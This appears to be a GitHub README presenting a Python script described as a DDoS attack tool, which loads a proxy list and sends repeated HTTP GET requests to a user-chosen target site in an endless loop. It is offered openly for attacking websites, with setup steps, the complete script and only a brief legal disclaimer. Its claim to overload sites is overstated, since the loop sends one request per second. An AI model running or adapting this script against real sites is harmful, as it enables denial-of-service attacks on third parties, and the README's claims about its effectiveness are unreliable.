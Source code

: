 
# DDoS Attack Script Using Proxies

This Python script allows you to send HTTP requests through a list of proxy servers for the purpose of conducting DDoS attacks. It is designed to overload target websites by using multiple proxies to distribute the load.

## Features

- Loads a list of proxies from a specified file.
- Sends HTTP GET requests to a target URL using each proxy.
- Handles proxy errors and request exceptions.
- Displays the response from the target site.

## Requirements

- Python 3.x
- `requests` library

You can install the `requests` library using pip:

```bash
pip install requests

Usage
Clone the repository or download the script file.
Prepare your proxy list: Create a text file named proxy.txt in the same directory as the script. Each line should contain a proxy in the format IP:PORT, for example:
text
192.168.1.1:8080
192.168.1.2:8080

Edit the script: Open the script and replace URL_TARGET_SITE with the URL of the site you want to attack.
Run the script: Execute the script using Python:
bash
python your_script_name.py

Make sure to replace your_script_name.py with the actual name of your Python file.
Example Code
python
import requests
import time

def load_proxies(file_path):
    with open(file_path, "r") as file:
        proxies = file.readlines()
    proxies = [proxy.strip() for proxy in proxies if proxy.strip()]
    return proxies

def fetch_with_proxy(url, proxy):
    proxy_ip, proxy_port = proxy.split(":")
    proxies = {
        "http": f"http://{proxy_ip}:{proxy_port}",
        "https": f"http://{proxy_ip}:{proxy_port}",
    }

    try:
        response = requests.get(url, proxies=proxies, timeout=10)
        if response.status_code == 200:
            print(f"Successfully accessed the site through proxy: {proxy}")
            print("Site response:")
            print(response.text[:500])  
        else:
            print(f"Failed to access the site through proxy {proxy}. Status code: {response.status_code}")
    except requests.exceptions.ProxyError:
        print(f"Proxy error: {proxy}")
    except requests.exceptions.RequestException as e:
        print(f"Request error through proxy {proxy}: {e}")

def main(url, proxy_file):
    proxies = load_proxies(proxy_file)
    while True:
        for proxy in proxies:
            fetch_with_proxy(url, proxy)
            time.sleep(1)

url = "URL_TARGET_SITE"   # Target site URL
proxy_file = "proxy.txt"  # Your proxy list

main(url, proxy_file)

Important Notes
Legal Disclaimer: Ensure that you have permission to conduct DDoS attacks on the target website. Unauthorized use may violate terms of service or local laws and could lead to criminal charges.
Proxy Reliability: The effectiveness of this script depends on the reliability of the proxies used. Some proxies may be slow or unresponsive.
Rate Limiting: Be cautious with how frequently you send requests, as this may lead to your IP being blocked by the target site.
